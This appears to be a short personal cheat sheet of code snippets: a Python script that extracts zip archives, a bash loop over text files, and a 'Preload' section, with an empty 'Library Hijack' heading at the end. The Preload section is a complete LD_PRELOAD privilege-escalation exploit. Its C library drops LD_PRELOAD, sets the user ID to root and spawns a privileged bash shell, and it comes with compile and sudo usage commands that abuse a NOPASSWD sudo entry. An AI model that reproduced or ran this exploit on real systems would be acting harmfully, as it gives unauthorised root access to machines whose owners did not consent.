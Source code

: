 # Extract All File in Directory

```
import os
import zipfile

filesList = os.listdir("./extract")

for file in filesList:
    filePath = './extract/' + str(file)
    with zipfile.ZipFile(filePath, 'r') as zipRef:
        zipRef.extractall('./extract_txt')
```

# Directory Files Iteration

```
#!/bin/bash

for file in ./path/*.txt ; do
	echo ${file}
done
```

# Preload

```
$ cat preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

# Usage
$ sudo -l
(root) NOPASSWD: /usr/sbin/apache2

$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /absolute/path/preload.c
$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2
```

# Library Hijack

